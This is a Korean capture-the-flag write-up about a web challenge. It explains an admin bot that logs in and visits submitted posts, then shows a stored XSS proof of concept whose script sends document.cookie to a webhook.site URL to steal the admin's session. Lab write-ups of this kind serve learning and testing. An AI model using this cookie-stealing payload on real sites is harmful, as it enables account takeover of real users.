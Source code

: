 <br>

```python
def doCrawl_server1(chal, url):
	crawler = Crawler()     # selenium 설정 클래스
	driver = crawler.driver
	try:

        # arang_client주소에서 admin계정으로 로그인
		crawler.req(f'http://arang_client:{server1_challs[chal]}/login')

		driver.find_element(By.ID,"userid").send_keys(ADMIN_ID)
		driver.find_element(By.ID,"userpw").send_keys(ADMIN_PASS)
		driver.find_element(By.ID,"submit-login").click()
		
		time.sleep(1)

		if crawler.req(url):
			time.sleep(2)
		
		driver.quit()
	except:
		driver.quit()
		print(f"[x] error...")
		print(traceback.format_exc())
```
위 코드는 bot.py의 doCrawl_server1함수이다. 해당함수에서 Crawler()클래스는 selenium을 설정하는 클래스이다. selenium은 간단하게 말해서 가상의 브라우져라고 보면되는데. 이 기능 통해 개발하는 과정에서 사이트 테스트를 하는 용도로 쓰인다. 돌아와서 이 기능을 이용해 `http://arang_client:{server1_challs[chal]}/login`에 접속을 한 뒤 userid에 ADMIN_ID를 불러와 입력하고, userpw에 ADMIN_PASS를 불러와 입력한뒤 submit-login버튼을 클릭 해 admin으로 로그인을 시도하는 것을 확인할 수 있다. 따라서 이 기능을 이용해서 Sotrd XSS공격을 한 내 게시글을 접속 시킬경우 admin계정의 cookie를 탈취할 수 있을 것이다.

<br>

#### 개념증명(XSS)
공격을 하는 순서는 다음과 같다.

1. 글쓰기기능을 통해 Stored XSS 공격으로 클라이언트가 해당 게시글에 접속 할 경우 cookie 값을 파라미터와 함께 공격자 서버에 요청을 보내는 스크립트를 작성한다.
2. 관리자에게 글읽기 요청으로 관리자의 권한으로 내가 작성한 게시글을 읽도록 한다.

처음 글쓰기로 위에서 설명했던 것과같이 나의 서버로 cookie값과 함께 요청을 보내는 스크립트를 작성하겠다. 참고로 write함수에서 봤던 것과 같이 따로 글쓰는 내용에 대한 필터링은 되어있지 않아 쉽게 공격을 할 수 있을 것이다.

![image](https://Jimin0605.github.io/assets/img/WHS/minictf/2.png)
내용에 `<script>new Image().src = "https://webhook.site/39cdd736-37d4-4f47-8503-cfe16200b35d?cookie=" + document.cookie;</script>` 이런 스크립트를 작성해주었다. 이 코드를 해석해보자면 new Image()로 새로운 이미지객체를 생성하고 그 이미지로 src를 통해`"https://webhook.site/39cdd736-37d4-4f47-8503-cfe16200b35d?cookie=" + document.cookie`를 지정해주었다. 여기서 webhook.site 는 요청을 받으면 그 패킷을 보여주는 도구이다. 이 webhook을 사용하면 실제 서버를 구축하지 않고도 요청받은 패킷을 볼 수 있어 편리하므로 이 사이트로 공격자 서버를 대신했다. 큰따옴표(")뒤에 나오는 `document.cookie`는 브라우저단에서 실행이 되는 자바스크립트의 내장되어있는 명령어로 해당 명령어를 사용하면 현재 사용자의 cookie값을 출력해준다. 따라서 저 webhook사이트에 요청을 보낼때 cookie라는 파라미터안에 해당 사용자의 cookie값을 가져와 보낸다는 것이다. 

결과적으로 이 게시글을 작성한 뒤 클라이언트가 이 게시글을 눌러 접속했을 때 자동으로 공격자서버에 cookie값이 전송이 되는것이다.

<br>
